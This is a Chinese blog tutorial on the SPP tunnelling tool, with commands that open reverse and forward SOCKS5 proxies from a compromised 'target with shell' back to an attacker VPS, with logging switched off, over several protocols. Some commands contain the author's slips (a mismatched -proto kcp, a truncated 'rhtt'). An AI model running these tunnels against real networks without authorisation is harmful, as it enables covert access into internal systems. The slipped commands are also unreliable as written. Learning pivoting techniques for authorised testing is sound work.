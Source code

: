 #  内网穿透学习-9-SPP工具

原创 FengXS0ne  [ Feng随心而安 ](javascript:void\(0\);)

**Feng随心而安** ![]()

微信号 gh_13bd5fd7a612

功能介绍 一个平凡的人，记录平凡的事，过着平凡的生活。平平淡淡，简简单单，追求无憾，追求无悔。

____

___发表于_

收录于合集 #内网穿透学习 9个

**本文章仅供学习交流使用，
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。请尊重原创，可以相互学习，虽说是记录生活，但也反感被人拿去盈利。**

1\. 工具介绍

 **
**一款比较好用的内网穿透工具，支持的协议：TCP，UDP，RUDP（可靠UDP），RICMP（可靠ICMP），RHTTP（可靠HTTP），KCP，Quic。支持类型：正向代理、反向代理、SOCKS5正向代理、SOCKS5反向代理，协议和类型可以自由组合，外部代理协议和内部转发协议可以自由组合，支持Shadowsocks插件，spp
Shadowsocks插件、spp shaowsocks插件android。

下载地址：https://github.com/esrrhs/spp

双工工具，可用做客户端，又可以做服务端

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165206.png)

2\. 具体使用

 **      1. **反向代理  
    靶机反连到VPS上的1080端口上，通过本地代理VPS的1080端口实现内网穿透到靶机上。  
    靶机：x.x.x.218  
    VPS：x.x.x.90

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    VPS端：./spp -type server -proto tcp -listen :8888 -nolog 1   
    -type type    server  服务端    proxy_client    reverse_proxy_client      socks5_client  正向代理socks5     reverse_socks5_client 反向socks5代理-proto  使用的协议    tcp     rudp     ricmp     kcp     quic     rhttp  
    -listen  监听端口    :8888-nolog 1  不写日志-noprint 1   不在页面打印

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165216.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    靶机（拿到shell）./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -proxyproto tcp -nolog 1  
    -name     客户端的名词，默认位client-type     reverse_socks5_client  反向sock5代理   -server    x.x.x.90:8888 spp的服务端ip以及监听的端口     -fromaddr     -fromaddr 反弹socks5到 x.x.x.90 的1080的端口    :1080   -proxyproto     tcp 被代理的协议-nolog 1  不写日志-noprint 1   不在页面打印

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165217.png)

当靶机反连过去，VPS的1080端口就会被打开。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165219.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165220.png)

 **2.  **正向代理

    本地去socks5 vps 的1080 端口，后通过本地代理VPS的1080端口实现内网穿透到靶机上。VPS的1080端口直连到靶机上去，  
    靶机：x.x.x.218  
    VPS：x.x.x.90

靶机上：因为是双工工具，可用做客户端，又可以做服务端

  *   *   *   * 

    
    
    靶机上./spp -type server -proto tcp -listen :8821-type type     server  服务端

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165221.png)

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    VPS: ./spp -name "test" -type socks5_client -server x.x.x.218:8821 -fromaddr :1080 -proxyproto tcp  
    -name     客户端的名词，默认位client-type     socks5_client 正向sock5代理   -server    x.x.x.218:8821 spp的服务端ip以及监听的端口     -fromaddr     -fromaddr  正向代理，打开的是VPS的1080端口    VPS的1080    :1080   -proxyproto     tcp 被代理的协议-nolog 1  不写日志-noprint 1   不在页面打印

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165222.png)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165223.png)

 ** **3.  **其他**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    以反向代理为例，使用其他协议  
    代理TCP，内部RUDP协议转发vps./spp -type server -proto rudp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto rudp这里需要注意的参数是-proxyproto tcp -proto rudp  简单理解意思是，对rudp协议封装成tcp协议。这个协议封装是怎样的，我也拿不准，可能说的有错。勿怪

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165223.png)

  *   *   *   *   *   *   *   *   * 

    
    
    代理TCP，内部kcp协议转发vps./spp -type server -proto kcp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto kcp这里需要注意的参数是-proxyproto tcp -proto rudp  简单理解意思是，对kcp协议封装成tcp协议。 这个协议封装是怎样的，我也拿不准，可能说的有错。勿怪

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230624165225.png)

  *   *   *   *   *   * 

    
    
    代理TCP，内部quic协议转发vps./spp -type server -proto kcp -listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto quic

  *   *   *   *   *   * 

    
    
    代理TCP，内部rhttp协议转发vps./spp -type server -proto rhttp-listen :8888 -nolog 1  
    靶机shell./spp -name "test" -type reverse_socks5_client -server x.x.x.90:8888 -fromaddr :1080 -toaddr :1080 -proxyproto tcp -proto rhtt

  

随时记录，用的时候，拿来就用....  

内网穿透应该算差不多了吧，魔改的话，等后面再弄吧....最近在研究nuclei这款工具...

 ** **本文章仅供学习交流使用，
文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担。请尊重原创，可以相互学习，虽说是记录生活，但也反感被人拿去盈利。****

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

